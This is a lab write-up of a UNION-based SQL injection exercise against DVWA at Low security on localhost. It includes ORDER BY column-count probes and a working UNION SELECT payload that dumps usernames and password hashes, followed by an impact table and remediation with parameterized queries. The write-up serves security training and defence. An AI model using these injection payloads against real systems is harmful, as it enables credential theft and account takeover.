

# Lab 03 — UNION-Based SQL Injection (DVWA Low)

**Target:** DVWA — SQL Injection module
**Security Level:** Low
**Environment:** Local (localhost)
**Author:** Anyagu Chisom ([haloangel143](https://github.com/haloangel143))
**Date:** October 2026

---

## 1. Vulnerability

The same `id` parameter can be extended with a `UNION SELECT` to append results from other tables to the application's response.

**Inferred query:**
```sql
SELECT first_name, last_name FROM users WHERE user_id = '$id';
```

## 2. Step 1 — Determine Column Count

The original query returns 2 columns (`first_name`, `last_name`). Confirmed with:

```
1' ORDER BY 1#
1' ORDER BY 2#
1' ORDER BY 3#   ← error → 2 columns
```

## 3. Step 2 — Inject the UNION Payload

```
1' UNION SELECT user, password FROM users#
```

**Resulting query:**
```sql
SELECT first_name, last_name FROM users WHERE user_id = '1'
UNION SELECT user, password FROM users#';
```

The `#` comments out the trailing quote in the original query.

## 4. Step 3 — Result

The page displayed, for each user:

- The username (in place of `first_name`)
- The password hash (in place of `last_name`)



## 5. Why It Works

| Piece | Effect |
|-------|--------|
| `1'` | Closes the ID string |
| `UNION SELECT user, password FROM users` | Appends a second result set |
| `#` | Comments out the original trailing quote |

UNION requires the same number of columns and compatible types — both satisfied here (2 columns, both strings).

## 6. Impact

| Impact Area | Severity |
|-------------|----------|
| Full credential disclosure (usernames + hashes) | Critical |
| Offline password cracking | High |
| Database enumeration | High |
| Potential full account takeover | Critical |

**OWASP:** A03:2021 — Injection

## 7. Root Cause

- Direct concatenation of user input
- No prepared statements
- Overly broad SELECT exposing sensitive columns

## 8. Remediation

**Parameterized query (PHP/PDO):**

```php
$stmt = $pdo->prepare("SELECT first_name, last_name FROM users WHERE user_id = ?");
$stmt->execute([$id]);
```

**Also:** store passwords with bcrypt/Argon2 (never MD5), least-privilege database account, disable verbose SQL errors.
